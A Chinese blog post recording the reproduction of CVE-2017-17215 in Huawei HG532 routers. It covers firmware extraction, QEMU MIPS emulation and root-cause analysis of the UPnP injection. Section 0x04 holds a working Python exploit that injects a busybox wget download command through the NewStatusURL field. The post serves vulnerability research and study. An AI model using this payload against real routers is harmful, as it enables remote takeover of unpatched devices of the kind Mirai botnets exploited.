








# 【我的第一个现实漏洞分析】 CVE-2017-17215 华为智能路由器 HG532 漏洞分析笔记 - 大史 42 - 博客园

> 原文：[`www.cnblogs.com/deerCode/p/11919612.html`](https://www.cnblogs.com/deerCode/p/11919612.html)

## 0x00 基本信息

2017.11.27 Check Point 团队报告华为 HG532 产品的远程命令执行漏洞(CVE-2017-17215)，Mirai 的升级版变种中[已经使用该漏洞](https://research.checkpoint.com/good-zero-day-skiddie/)。 华为 HG532 是一款小型家用和办公用户打造的告诉无线路由器。该漏洞 payload 由蜜罐所捕获发现。利用原理是利用 upnp 服务中的注入漏洞实现任意命令执行。
在 Freebuf 上有一系列文章，指导如何学习路由器漏洞分析，本文是第一篇[通过 CVE-2017-17215 学习路由器漏洞分析，从入坑到放弃](https://www.freebuf.com/vuls/160040.html) 的复现记录，旨在供后来者验证和自我学习。

## 0x01 漏洞分析

该漏洞版本固件是 HG532eV100R001C02B015_upgrade_main.bin。目前华为已发布漏洞公告，固件已经升级到 HG532eV100R001C02B015_upgrade_main.bin。在华为的花粉论坛找到了该版本的下载链接。
[click here to download](https://club.huawei.com/forum.php?mod=attachment&aid=Mjk1MTY0OXxmNzM3YzIzNHwxNTc0Mzg3ODg0fDB8MzgxOTI2Mw%3D%3D)
在这篇文章[CVE-2017-17215-HG532 命令注入漏洞分析](https://xz.aliyun.com/t/4819) 中也找到了[下载地址 2](https://ia601506.us.archive.org/22/items/RouterHG532e/router%20HG532e.rar)。两篇文章可以对照看，Freebuf 上的文章更为详细具体。
查看官方 Payload

#### 分析固件文件

分析环境是 ububtu 16.04 ，用 binwalk 解压固件文件

```
binwalk -Me HG532eV100R001C02B015_upgrade_main.bin 
```


根据 CheckPoint 报告，漏洞点位于 UPnP 服务中。执行下列命令。

```
cd _HG532eV100R001C02B015_upgrade_main.bin.extracted/
cd squashfs-root/
cd bin
file upnp 
```

结果如下图所示：

可以看到 upnp 是 MIPS 32 位 大端架构系统

## 0x02 分析环境搭建

环境搭建主要目的是搭建路由器固件运行的环境，有以下步骤：

1.  安装 QEMU 虚拟机
2.  配置网络环境
3.  加载路由器虚拟机的操作系统镜像

### 1\. 安装 qemu

在 ubantu 中执行下列指令

```
sudo apt-get install qemu 
sudo apt-get install qemu-user-static
sudo apt-get install qemu-system 
```

### 2\. 网络配置

1.  安装网络配置工具

```
apt-get install bridge-utils uml-utilities 
```

2.  修改 ubuntu 网络配置接口文件 **/etc/network/interfaces/**
    

3.  修改 qemu 的网络接口启动文件脚本**etc/qemu-ifup**如下所示：
    

4.  启动桥接网络
    赋予可执行权限

```
sudo chmod a+x /etc/qemu-ifup 
```

重启网络服务，使配置生效

```
sudo /etc/init.d/networking restart 
```

关闭 ens33，启动桥接网络 br0

```
sudo ifdown eth0
sudo ifup br0 
```

执行到这里时，系统提示 eh0 并未启动。这里并不影响


br0 启动后如下所示


### 3\. 加载 debian 镜像文件

结合 Freebuf 上的教程，下载 debian mips qemu 镜像文件，作为固件运行环境，下载地址如下：
[`people.debian.org/~aurel32/qemu/mips/`](https://people.debian.org/~aurel32/qemu/mips/)

根据教程下载 debian_squeeze_mips_standard.qcow2 和 vmlinux-2.6.32-5-4kc-malta。教程中作者吐槽其他的帖子有各种下载镜像的地址，但是坑很多。
然后在下载文件夹路径下，启动 qemu，运行刚刚下载的镜像文件：

```
sudo qemu-system-mips -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic,macaddr=00:16:3e:00:00:01 -net tap 
```

一切顺利，可以看到 qemu 成功启动

在 QEMU 虚拟机中，用户名 root,密码 root 成功登陆。
但是尝试 ping BAIDU 时，发现网络不通。
**ifconfig -a**发现了网络机接口是 eht1：

敲入指令

```
nano /etc/network/interfaces 
```

将接口文件中的 eth0 改为 eth1，之后，再键入指令

```
ifup eth1 
```

重启 eth1,再次尝试 ping www.baidu.com。此时 ping 通。
直接在 qemu 上操作比较麻烦，建议在 ubantu 上 ssh root@虚拟机 ip 来操作虚拟机。
将之前解压的固件包拷贝到虚拟机中，即完成路由器固件运行环境的搭建。接下来开始漏洞的复现。固件拷贝命令如下：

```
scp -r ./squashfs-root  root@虚拟机 ip:/root/ 
```

## 0x03 漏洞复现

本章解决三个问题。
第一：漏洞点在路由器的哪个服务中；
第二：如何运行漏洞点所在服务；
第三：如何利用

### 1\. 定位漏洞点

首先查看[checkpoint 报告](https://research.checkpoint.com/2017/good-zero-day-skiddie/)中的 payload

注意其中的关键字：**ctrlt**和**DeviceUpgrade_1**，通过**grep -r [keywords]*指令查看有哪些文件包含这两个词语：

再找下端口号 37215 所在文件。


### 2\. 运行漏洞点服务

但是要运行 upnp 和 mic 这两个文件，需要先切换根目录到路由器文件系统中，如果直接运行结果如下：

切换到路由器文件系统指令：

```
chroot /root/squashfs-root /bin/sh 
```

或者执行 qemu 中 squashfs-root 文件夹中执行

```
chroot . sh 
```

达到切换固件跟录下的目的。结果如下图所示：

运行 mic 服务


### 3\. 验证漏洞

这时测试一下路由器的 37215 端口，

在 ubantu 上键入指令**sudo nc -vlp 80** 监听本机 80 端口，接下来运行 exp 脚本验证漏洞。

## 0x04 EXP 脚本

根据披露的 payload，构造 EXP 脚本如下：

```
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope  s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade >
   <NewStatusURL>;/bin/busybox wget -g 98.168.241.128 -l /tmp/1 -r /1;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://198.168.241.129:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data) 
```

监听发现 80 端口收到路由器发来的 wget 包。

说明路由器成功执行 exp 中的 wget 指令。

## 0x04 漏洞原理

用 IDA 打开固件文件中的/bin/upnp 文件。根据 poc，注入点在`<NewStatusURL>`以及`<NewDownloadURL>`，在字符串中找到它们

双击`NewStatusURL`，按下 X 查看交叉引用

查看这部分代码

newstatusurl 这个节点值为 `<NewStatusURL>$(busybox wget -g xxxx ;xx;xx)</NewStatusURL>`

```
snprintf(a0,0x400,"upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -",a3) 
```

其中 a0 是被拷贝的字符串的地址，也是 system 调用的第一个参数，这意味着路由器会执行`system(a0)`指令，达到控制该路由器的目的。例如在本文的 exp 中，执行的是 wget 指令。

## 0x05 参考文章

[1] [通过 CVE-2017-17215 学习路由器漏洞分析，从入坑到放弃](https://www.freebuf.com/vuls/160040.html)
[2] [CVE-2017-17215 - 华为 HG532 命令注入漏洞分析](https://www.cnblogs.com/hac425/p/9416936.html)
[3] [CVE-2017-17215-HG532 命令注入漏洞分析](https://xz.aliyun.com/t/4819)